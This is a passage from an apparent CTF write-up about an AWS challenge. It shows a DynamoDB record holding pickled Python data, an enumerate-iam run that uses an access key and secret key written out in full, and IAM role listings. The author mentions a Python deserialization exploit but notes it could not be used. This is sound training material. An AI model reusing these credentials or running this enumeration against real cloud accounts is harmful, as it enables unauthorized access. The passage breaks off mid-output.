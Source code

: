 ```json
                "N": "1"
            },
            "data": {
                "S": "gASVKwAAAAAAAAB9lCiMBG5hbWWUjAtNeSBGcmllbmQgMZSMBGRlc2OUjAdDYXB0YWlulHUu"
            }
        }
    ],
    "Count": 4,
    "ScannedCount": 4,
    "ConsumedCapacity": null
}
```

I tried to add/modify data, and found that the user don't have permission to do it, so we can't exploit that deserialization in the python script.

Then I used this tool to test for what that user is able to do : 

https://github.com/andresriancho/enumerate-iam

```
python3 enumerate-iam.py --access-key AKIAXNIS54OCBQD5C4ME --secret-key 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
2022-01-02 08:08:36,589 - 593499 - [INFO] Starting permission enumeration for access-key-id "AKIAXNIS54OCBQD5C4ME"
2022-01-02 08:08:38,060 - 593499 - [INFO] -- Account ARN : arn:aws:iam::509530203012:user/ddb_user
2022-01-02 08:08:38,060 - 593499 - [INFO] -- Account Id  : 509530203012
2022-01-02 08:08:38,061 - 593499 - [INFO] -- Account Path: user/ddb_user
2022-01-02 08:08:38,285 - 593499 - [INFO] Attempting common-service describe / list brute force.
2022-01-02 08:08:48,341 - 593499 - [INFO] -- dynamodb.list_backups() worked!
2022-01-02 08:08:48,579 - 593499 - [INFO] -- dynamodb.list_tables() worked!
2022-01-02 08:08:48,821 - 593499 - [INFO] -- dynamodb.list_tables() worked!
2022-01-02 08:08:49,055 - 593499 - [INFO] -- dynamodb.describe_limits() worked!
2022-01-02 08:08:49,283 - 593499 - [INFO] -- dynamodb.describe_endpoints() worked!
2022-01-02 08:08:49,533 - 593499 - [INFO] -- dynamodb.list_global_tables() worked!
2022-01-02 08:08:54,189 - 593499 - [INFO] -- iam.list_roles() worked!
2022-01-02 08:08:57,544 - 593499 - [INFO] -- sts.get_caller_identity() worked!
2022-01-02 08:08:57,775 - 593499 - [INFO] -- sts.get_session_token() worked!
```

I found that we can list out the roles : 

```json
aws iam list-roles --profile tetctf
{
    "Roles": [
        {
            "Path": "/aws-service-role/dynamodb.application-autoscaling.amazonaws.com/",
            "RoleName": "AWSServiceRoleForApplicationAutoScaling_DynamoDBTable",
            "RoleId": "AROAXNIS54OCPKGBTFMFC",
            "Arn": "arn:aws:iam::509530203012:role/aws-service-role/dynamodb.application-autoscaling.amazonaws.com/AWSServiceRoleForApplicationAutoScaling_DynamoDBTable",
            "CreateDate": "2021-12-29T15:04:01Z",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "dynamodb.application-autoscaling.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "MaxSessionDuration": 3600
```